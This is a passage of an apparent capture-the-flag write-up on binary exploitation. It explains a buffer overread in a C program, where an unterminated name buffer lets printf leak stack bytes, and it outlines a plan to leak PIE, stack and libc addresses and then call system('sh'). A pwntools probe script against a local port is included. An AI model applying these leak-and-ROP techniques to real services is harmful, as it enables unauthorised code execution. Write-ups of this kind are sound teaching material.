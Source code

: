 ### Buffer Overread
The is another vulnerability that is vital for the final exploit. 

The vulnerability appears with the following code:
```c
char name_buffer[0x20];
read(0, name_buffer, 0x1f);
printf("Hello, %s\n; send me your message now: ", name_buffer);
```
We can read 0x1f bytes into the `name_buffer` and then printf will print `name_buffer`.
The problem is printf's `%s` will print a the characters of a string until it reaches a null byte, but we can send a read in a name that does not contain a null byte but uses a "\n" (0xa) instead. This allows us to leak the bytes after our name until a null byte.

We can observe this behavior by breaking at the printf call and looking at the data at `x1`.

![](https://i.imgur.com/zpHc8yX.png)

Here we can see the name I sent was "playoff-rondo" and the character bytes of that string stop at the null byte after the newline character sent. 


## Exploitation

To exploit this binary and spawn a shell, I wil break it up into the 4 parts I used.

1. Leak PIE
2. Leak Stack address
3. Leak Libc
4. Call system("sh")

### Leak PIE
To be able to create a ropchain, the addresses of the ropgadgets need to be determined because of PIE.

Using the buffer overread vulnerability, and a payload of:
```python
from pwn import *

io = remote("127.0.0.1",1337)

name = b"A"
message = b"A"*0x20
message += b"B"*8
message += b"C"*8

io.sendlineafter(b"name: ",name)
io.sendlineafter(b"message now: ",message)

io.interactive()
```

And breaking at the printf call:
